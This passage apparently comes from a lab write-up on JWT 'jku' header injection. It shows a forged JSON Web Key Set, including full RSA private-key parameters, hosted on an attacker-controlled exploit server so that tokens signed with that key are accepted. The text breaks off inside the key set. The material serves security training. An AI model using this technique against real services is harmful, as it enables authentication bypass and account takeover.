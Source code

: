 ![jku_injection_1](../../zzz_res/attachments/jku_injection_1.png)

JWKS hosted on the attacker site ( `https://exploit-0ad800db048df30dc6fa1c4d01bf000f.exploit-server.net/.well-known/jwks.json`):
```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8

{
    "keys": [
		{
		    "p": "z6IASOw4kKgWctgfR_q6E1gs_MDJE7f6czTVOQI058Fh-SZszae02FhXqH4jM9qO26E9bx8-_yl1cTz_nuG6_-YA1YxLJ8F1AjXT7g3YAqxlBTe56qtvyg2Ry8Q4hNphulNOuwvambvVQM43HLvvXNwWGyQ0Pw2LcWM_bV1SSE0",
		    "kty": "RSA",
		    "q": "zWEQaRBKUG9Q0WoLVKTGj0N1WTrL-rFotYhGU9BBKPAEMlJXkt68LObmRRkYgiohOgveIEQ9c8Q7UM7P-y3L8f4okQZKQQEGmFU-uvzQjYUStUneQIKTTR2EWFijuhMwfN0fLyapWX6g5WmfijdRO1BmhrLpAP-hqCWTPtvkiS8",
		    "d": "KuYinoRZPPrp7cqEebz-n4y09w_hUlfeHlO8VuILq4kcVOWKpXvAUSOT_nxCoX-xo1kKlfl1mxRRKSiiVspUiBmWRVCAlryC8LiC-uQBYG_rCQ1nnPKlgYIIszFwnKJhnSYd7x3bjyMevKAOqMjjVNrci7Ql-m59K9redJJs08c5YQcc1k7Q6d1nyB1JbqG4-94OIC30ws96-BpImE31dJdZ_e9Kzqlcuuj8N_xwvgjKym5tHfgO11sYPwebqUXmvcsn15z87E3dlj6tNawKK9EvQgqDhp0NgAqdd0n5z9PIEVbk0Vur-PucGhXakmy9_IduwR844IS9hYbAnp5iMQ",
		    "e": "AQAB",
		    "kid": "c1f90a45-7b56-484d-b8b7-0a69da1def8f",
		    "qi": "oOfGvB5KsbyrVy9vDH3a3oAiSIHk-enm8AWzJHDn2XtUlVIeebJR-chzo8qvrpGOEZp9ABM5ocrcFlnWn6AKAc_CAREdM_OPBftsHFzH3y-0hIrSITcifpbHYlJtigi6cEJd_awyUA_iIgv3j3t5CMgmTOrTbhmbVSbIwfXfGZ0",
		    "dp": "jMS4jLgaYXiUP6hnDNXf8d2GIpZRvRyuoAzhwpTMaZOiaNi0S3m4EjVSuNlL5Iv47s6SaBQ3Ead6CBvi8kT4EyZMynsjOQDf42-7D1ozaRyYIMF3OrKgR8yLXCrcZrXoK_rvFcEjo7bFDfrBQqnnzn0oP558DYORVn6DMhJjBsE",
		    "dq": "SAYdIiszVIflGLuOo61xcLZghd1HwW_L37WdrDDhWQDrB9a2nWv9I-YJpPvLC4LIyjl1OW2U-286ufj9GQITfpb6FPnWunsom-1xJVQZszeSuv7fsVHZZHbQfccAC_ZEz9Uf5YIya48rz6g96dPCagGlIuHFMrNzNquOusGUoMM",
```